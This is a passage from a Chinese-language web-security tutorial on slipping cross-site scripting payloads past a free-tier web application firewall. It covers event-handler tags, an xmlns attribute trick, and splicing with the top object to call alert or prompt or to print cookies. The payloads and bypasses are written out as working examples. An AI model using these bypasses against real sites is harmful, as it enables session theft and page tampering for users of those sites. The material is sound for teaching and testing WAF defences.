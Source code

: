 ```
&lt;body/onfocus=alert(/xss/)&gt;
  &lt;details open ontoggle=alert(/xss/)&gt;
  &lt;button onfocus=alert(/xss/) autofocus&gt;
```

利用伪协议

waf拦截

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a38df7801390d506.png)

加上一个xmlns属性即可绕过

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t018e8fb0150b09d4af.png)

实际上，我测试的waf是免费使用的，所以有些厂商可以象征性的取一些样本，拦截一下常见的标签，如果你购买了厂商的高级服务，那我们绕过就有难度，然而大多数网站还是使用免费版的多。



## 拼接字符类

拼接字符串的话，一般把关键字拆分成几个字符串，再拼接执行，结合top,concat之类的。

### <a name="header-n26"></a>top对象

top输出字符

[![](https://p3.ssl.qhimg.com/t010b43d12db4539945.png)](https://p3.ssl.qhimg.com/t010b43d12db4539945.png)

或者打印cookie

[![](https://p4.ssl.qhimg.com/t015b4940363b4eb33e.png)](https://p4.ssl.qhimg.com/t015b4940363b4eb33e.png)

top可以连接对象以及属性或函数，那么我们可以做到很多，例如:

直接top连接一个alert函数

[![](https://p3.ssl.qhimg.com/t015e5dc5b21fe07333.png)](https://p3.ssl.qhimg.com/t015e5dc5b21fe07333.png)

&lt;details open ontoggle=top.alert(1)&gt;也可以绕过waf

[![](https://p3.ssl.qhimg.com/t01df91970f8a049c74.png)](https://p3.ssl.qhimg.com/t01df91970f8a049c74.png)

top[‘alert’](1)也可弹窗，但waf拦截

[![](https://p0.ssl.qhimg.com/t01393acbe0c06f4d5d.png)](https://p0.ssl.qhimg.com/t01393acbe0c06f4d5d.png)

绕过的话，很简单用prompt方法或者confirm都可以

&lt;details open ontoggle=top[‘prompt’](1)&gt;
